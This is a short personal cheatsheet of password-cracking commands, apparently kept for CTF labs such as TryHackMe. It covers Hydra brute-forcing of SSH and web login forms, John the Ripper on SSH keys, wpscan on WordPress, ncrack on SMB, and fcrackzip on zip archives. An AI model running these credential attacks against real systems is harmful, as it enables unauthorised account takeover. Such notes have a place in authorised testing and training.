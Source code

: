 #crackPass 

# HYDRA [[Hydra-Password-Cracking-Cheatsheet.pdf]]

# ssh
## dict
```
hydra $ip -s 22 ssh -l -P big_wordlist.txt
```
## crack ssh key
```
 ssh2john key > hash
 ```
 ```
 john hash -wordlist=/usr/share/wordlists/rockyou.txt
```

# crack form login
```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt $ip http-form-post '/admin/:username=^USER^&password=^PASS^:F=Incorrect Credentials' -V
```

# wordpress
```
wpscan --url $ip -P /home/kali/Desktop/Chall/thm/fsocity.dic.m -U Elliot
```
# mkpasswd
make hash for a passwd
```
mkpasswd -m sha-512 password1234
```

# smb
`ncrack --vv --user <user> -P <password> smb://@ip`

# file.zip
```
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip
```

# john
## formats list
```
john --list=FORMATS
```